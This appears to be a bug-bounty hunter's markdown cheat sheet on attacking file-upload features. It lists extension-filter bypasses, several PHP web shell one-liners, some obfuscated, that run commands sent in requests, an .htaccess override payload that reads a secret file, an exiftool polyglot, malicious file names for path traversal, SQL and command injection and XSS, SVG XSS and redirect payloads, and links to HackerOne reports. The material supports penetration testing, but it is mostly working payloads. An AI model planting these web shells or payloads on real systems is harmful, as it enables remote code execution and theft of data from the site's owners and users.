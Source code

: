 ```yaml
---
tags:
  - web_hunting
  - web-app-security
  - logic-bugs
---
```

>**File extension**

    # extension blacklisted:
    PHP: .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
    ASP: .asp, .aspx, .cer, .asa
    Jsp: .jsp, .jspx, .jsw, .jsv, .jspf
    Coldfusion: .cfm, .cfml, .cfc, .dbm
    Using random capitalization: .pHp, .pHP5, .PhAr
    pht,phpt,phtml,php3,php4,php5,php6,php7,phar,pgif,phtm,phps,shtml,phar,pgif,inc
    # extension whitelisted:
    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\\x00.jpg
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\\
    file.
    .html
- [ ] Upload `asp` file using `.cer` & `.asa` extension (IIS — Windows)
- [ ] Upload `.eml` file when `content-type = text/HTML`

>***Payloads***

```php
<?php system($_GET["cmd"]);?> # ?cmd= (ex: ?cmd=ls -la")
<?=`$_GET[0]`?>               # ?0=command

<?=`$_POST[0]`?>          
# Usage : curl -X POST http://target.com/path/to/shell.php -d "0=command"

<?=`{$_REQUEST['_']}`?>      
# Usage: http://target.com/path/to/shell.php?_=command OR curl -X POST http://target.com/path/to/shell.php -d "_=command" '

<?=$_="";$_="'" ;$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>
# Usage : http://target.com/path/to/shell.php?0=command

<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
# Usage : http://target.com/path/to/shell.php?_=function&__=argument http://target.com/path/to/shell.php?_=system&__=ls
```

> **Content type**
  
	- Preserve name, but change content-type
    Content-Type: image/jpeg, image/gif, image/png

> **Content length**

	# Small bad code:
    <?='$_GET[x]'?>    

> **Impact by extension**

```go
asp, aspx, php5, php, php3: -->  webshell, rce
svg:                        --> stored xss, ssrf, xxe
gif:                        --> stored xss, ssrf
csv:                        --> csv injection
xml:                        --> xxe 
avi:                        --> lfi, ssrf
html, js:                   --> html injection, xss, open redirect
png, jpeg:                  --> pixel flood attack dos
zip:                        --> rce via lfi, dos
pdf, pptx:                  --> ssrf, blind xxe
```

>**File name**

 - [ ] Path traversal
	`../../etc/passwd/logo.png`
	`../../../logo.png`
- [ ] SQLi
	`'sleep(10).jpg`
	`sleep(10)-- -.jpg`
- [ ] Command injection
	`; sleep 10;`
- [ ] XSS 
	`<svg onload=alert(document.comain)>.svg`

>**Other Test Cases**

- [ ] Image-Tragic
	SVG images are just XML data. Using XML you can achieve lots of vulnerabilities, for instance Image Magic which is an image processing library is vulnerable to SSRF and RCE vulnerabilities.
	
	Source (Facebook RCE): [Facebook's ImageTragick Remote Code Execution (4lemon.ru)](http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html)    
    
- [ ] **[Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) [Overriding the server configuration]**
    
    ```php
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain
    
    AddType application/x-httpd-php .l33t
    ------------------------------------------
    then 
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
    Content-Type: application/octet-stream
    
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    ```
        
- [ ] **[Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)**
    
    ```php
    exiftool.exe -Comment="<?php echo 'START ' . 'Hacked By h0tak88r :)' . ' END'; ?>" download.png -o polyglot.php
    ```
- [ ] EXIF-DATA not Stripped
	1. Got to Github ( https://github.com/ianare/exif-samples/tree/master/jpg) <br>
	2. There are lot of images having resolutions (i.e 1280 * 720 ) , and also whith different MB’s . <br>
	3. Go to Upload option on the website <br>
	4. Upload the image<br>
	5. see the path of uploaded image ( Either by right click on image then copy image address OR right click, inspect the image, the URL will come in the inspect ,   edit it as html )
	6. open it (http://exif.regex.info/exif.cgi)
	7. See whether is that still showing exif data , if it is then Report it.
	**Reports (Hackerone)**
	- [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)


> **File Upload Exploitation**

- **SVG file To XSS**

	```jsx
		<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
		<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
		<script type="text/javascript">
		alert("h0tak88r XSS");
		</script>
		</svg>
    ```
        
- **Open Redirect when uploading svg files**
        
	```xml
        <code>
        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
        <svg
        onload="window.location='<http://www.google.com>'"
        xmlns="<http://www.w3.org/2000/svg>">
        </svg>
        </code>
        
	```

# Top Upload reports from HackerOne:

1. [Remote Code Execution on www.semrush.com/my_reports on Logo upload](https://hackerone.com/reports/403417) to Semrush - 792 upvotes, $0
2. [Webshell via File Upload on ecjobs.starbucks.com.cn](https://hackerone.com/reports/506646) to Starbucks - 673 upvotes, $0
3. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 412 upvotes, $1000
4. [Unrestricted file upload on [ambassador.mail.ru] ](https://hackerone.com/reports/854032) to Mail.ru - 404 upvotes, $3000
5. [[ RCE ] Through stopping the redirect in /admin/* the attacker able to bypass Authentication And Upload Malicious File](https://hackerone.com/reports/683957) to Mail.ru - 340 upvotes, $0
6. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/808862) to Visma Public - 268 upvotes, $250
7. [SSRF  leaking internal google cloud data through upload function [SSH Keys, etc..]](https://hackerone.com/reports/549882) to Vimeo - 249 upvotes, $0
8. [Arbitrary File Upload to Stored XSS](https://hackerone.com/reports/808821) to Visma Public - 245 upvotes, $250
9. [Unrestricted File Upload Leads to RCE on mobile.starbucks.com.sg](https://hackerone.com/reports/1027822) to Starbucks - 225 upvotes, $0
10. [Admin Management - Login Using Default Password - Leads to Image Upload Backdoor/Shell](https://hackerone.com/reports/699030) to Razer - 199 upvotes, $200
11. [External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing](https://hackerone.com/reports/1062888) to TikTok - 139 upvotes, $2727
12. [Unrestricted file upload in www.semrush.com \> /my_reports/api/v1/upload/image](https://hackerone.com/reports/748903) to Semrush - 124 upvotes, $0
13. [User can upload files even after closing his account](https://hackerone.com/reports/1020371) to Basecamp - 114 upvotes, $0
14. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 112 upvotes, $0
15. [Insecure file upload in xiaoai.mi.com Lead to Stored  XSS](https://hackerone.com/reports/882733) to Xiaomi - 107 upvotes, $0
16. [Unrestricted File Upload on https://partner.tiktokshop.com/wsos_v2/oec_partner/upload](https://hackerone.com/reports/1890284) to TikTok - 98 upvotes, $0
17. [[insideok.ru] Remote Command Execution via file upload.](https://hackerone.com/reports/666716) to ok.ru - 94 upvotes, $0
18. [Avatar upload allows arbitrary file overwriting](https://hackerone.com/reports/671605) to Mail.ru - 88 upvotes, $750
19. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/880099) to GitLab - 82 upvotes, $0
20. [Unauthenticated user can upload an attachment to the last updated report draft](https://hackerone.com/reports/419896) to HackerOne - 80 upvotes, $0
21. [XSS from arbitrary attachment upload.](https://hackerone.com/reports/831703) to Qulture.Rocks - 74 upvotes, $0
22. [Open s3 bucket allows for public upload](https://hackerone.com/reports/504600) to Augur - 73 upvotes, $100
23. [SSRF and local file disclosure by video upload on https://www.redtube.com/upload](https://hackerone.com/reports/570537) to Pornhub - 61 upvotes, $500
24. [Cross site scripting via file upload in subdomain ads.tiktok.com](https://hackerone.com/reports/1433125) to TikTok - 59 upvotes, $500
25. [Unrestricted file upload when creating quotes allows for Stored XSS](https://hackerone.com/reports/788397) to Visma Public - 57 upvotes, $250
26. [Singapore - Unrestricted File Upload Leads to XSS on campaign.starbucks.com.sg/api/upload](https://hackerone.com/reports/883151) to Starbucks - 57 upvotes, $0
27. [Stored XSS on upload files leads to steal cookie](https://hackerone.com/reports/765679) to Palo Alto Software - 56 upvotes, $0
28. [SSRF and local file disclosure by video upload on https://www.tube8.com/](https://hackerone.com/reports/574133) to Pornhub - 53 upvotes, $500
29. [Unrestricted File Upload Results in Cross-Site Scripting Attacks](https://hackerone.com/reports/1005355) to Uber - 53 upvotes, $0
30. [SSRF in VCARD photo upload functionality](https://hackerone.com/reports/296045) to Open-Xchange - 49 upvotes, $850
